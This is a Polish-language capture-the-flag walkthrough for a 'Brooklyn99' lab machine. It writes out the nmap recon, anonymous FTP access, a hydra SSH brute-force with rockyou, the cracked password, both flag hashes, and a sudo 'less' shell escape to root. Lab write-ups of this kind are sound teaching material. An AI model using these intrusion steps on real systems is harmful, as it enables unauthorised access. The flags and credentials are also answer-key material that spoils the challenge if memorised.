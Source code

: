 # Brooklyn99 CTF
IP=10.10.118.60

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.118.60
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-13 05:54 EDT
Nmap scan report for 10.10.118.60
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.80 seconds
```

Zostały wykryte trzy porty, port 21 i port 80 są najciekawsze ze względu na potencjalne zagrożenia bezpieczeństwa.

## Skanowanie (pierwsza możliwa droga do zdobycia flag)

### Port 21
Rozpoczynamy od sprawdzenia portu 21. Ze skanu wynika, ze logowanie Anonymous jest dozwolone. Logujemy się do serwisu i pobieramy znalezioną tam notatkę:

```
ftp 10.10.118.60
```

```
anonymous:anonymous
```

![FTP](img/FTP.JPG)

## Eksploitacja

Z notatki wynika, że hasło użytkownika Jake jest słabe. Spróbujmy to wykorzystać przeprowadzając atak brute-force na serwis SSH za pomocą hydry: 

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.118.60
```

![Cred](img/Cred.JPG)

Następnie logujemy się do serwisu ssh z pomocą poniższych danych do logowania:

```
ssh jake@10.10.118.60
```

```
jake:987654321
```

![SSH](img/SSH.JPG)

W katalogu domowym użytkownika holt znajdujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
ee11cbb19052e40b07aac0ca060c23ee
```

## Zwiększenie poziomu uprawnień

Widzimy, że użytkownik jake może wykonać komendę less: 

![Less](img/Less.JPG)

Wykorzystujemy [exploita](https://gtfobins.github.io/gtfobins/less/), aby zdobyć uprawnienia root'a:

![Exploit1](img/Exploit1.JPG)

```
sudo less /etc/profile
!/bin/sh
```

W pliku root.txt znajdujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
63a9f0ea7bb98050796b649e85481845
```

## Skanowanie (druga możliwa droga do zdobycia flag)

Do zobaczenia na kolejnych CTF-ach!



